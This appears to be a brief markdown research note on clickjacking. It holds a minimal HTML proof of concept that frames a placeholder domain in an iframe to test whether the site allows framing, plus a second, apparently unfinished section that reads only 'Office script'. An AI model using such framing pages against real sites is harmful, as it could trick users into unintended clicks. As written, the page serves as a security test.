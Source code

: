 # Clickjacking Research
## Simple clickjacking script
```
<html>
<title>clickjacking POC</title>
<body>
<p>Clickjacking</p>
<div>
<iframe src="https://sub.domain.com" width="80%" height="450" style="border:none;"></iframe>
</div>
</body>
</html>
```
## Simple clickjacking script
```
Office script
```
